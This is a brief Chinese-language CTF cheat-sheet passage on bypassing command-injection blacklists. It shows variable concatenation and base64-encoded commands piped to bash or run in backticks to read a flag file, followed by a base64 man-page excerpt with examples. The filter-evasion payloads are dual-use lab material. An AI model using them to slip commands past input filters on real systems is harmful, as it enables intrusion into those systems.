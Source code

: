> ##### %09(需要PHP环境)

[![cHeGNj.png](https://z3.ax1x.com/2021/04/20/cHeGNj.png)](https://imgtu.com/i/cHeGNj)

> #### 黑名单绕过

> ##### 拼接

```cmd
root@kali:~# a=c;b=at;c=fl;d=ag;$a$b $c$d
this is your flag
```

> ##### base64编码

payload1：

```cmd
root@kali:~# `echo "Y2F0IGZsYWc="|base64 -d`
this is your flag
```

payload2:

```cmd
root@kali:~# echo "Y2F0IGZsYWc="|base64 -d|bash
this is your flag
```

##### base64 

用法：base64 [选项]... [文件]

使用 Base64 编码/解码文件或标准输入输出。

```
-d, --decode          解码数据
-i, --ignore-garbag   解码时忽略非字母字符
-w, --wrap=字符数     在指定的字符数后自动换行(默认为76)，0 为禁用自动换行

--help            显示此帮助信息并退出
--version         显示版本信息并退出
```

如果没有指定文件，或者文件为"-"，则从标准输入读取。

数据以``RFC 3548``规定的``Base64``字母格式进行编码。 解码时，输入数据(加密流)可能包含一些非有效``Base64``字符的新行字符。可以尝试用``--ignore-garbage``选项来恢复加密流中任何非``base64``字符。

例1：

```
[root@localhost ~]# echo test|base64            #加密
dGVzdAo=
[root@localhost ~]# echo dGVzdAo= |base64 -d    #解密 
test
```

例2：

```
[root@web ~]# base64 -d 1.txt  #解密文件中的内容
hello
world
```
